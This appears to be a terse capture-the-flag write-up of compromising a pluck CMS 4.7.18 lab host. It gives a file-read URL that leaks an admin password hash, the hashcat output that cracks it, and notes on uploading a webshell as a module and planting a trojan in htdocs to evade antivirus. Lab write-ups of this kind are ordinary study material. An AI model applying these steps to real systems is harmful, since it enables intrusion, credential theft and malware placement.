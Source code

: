 ## Web in

pluck 4.7.18 © 2005-2024

https://github.com/pluck-cms/pluck/issues/122

```url
http://10.129.250.65/data/settings/modules/albums/
```

```php
// /data/modules/albums/albums_getimage.php?image=admin_backup.php
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146
```

## Password

```
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1700 (SHA2-512)
Hash.Target......: c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29f...5ce81e
Time.Started.....: Sun Mar 31 16:53:49 2024 (0 secs)
Time.Estimated...: Sun Mar 31 16:53:49 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/Users/esonhugh/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 14432.7 kH/s (7.44ms) @ Accel:256 Loops:1 Thr:64 Vec:1
Recovered.Total..: 1/1 (100.00%) Digests
Progress.........: 1048576/14344385 (7.31%)
Rejected.........: 0/1048576 (0.00%)
Restore.Point....: 786432/14344385 (5.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: sonirustiani -> Leslee
Hardware.Mon.SMC.: Fan0: 0%, Fan1: 0%
Hardware.Mon.#1..: Util: 46%

Started: Sun Mar 31 16:53:32 2024
Stopped: Sun Mar 31 16:53:50 2024

c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e:lexypoo97
```

## User svc_web

upload [[webshell.zip]] as install modules in backend will get a webshell

upload trojan.exe to C:\xmapp\htdocs\ will evade the AV

shell to [[svc_web]]


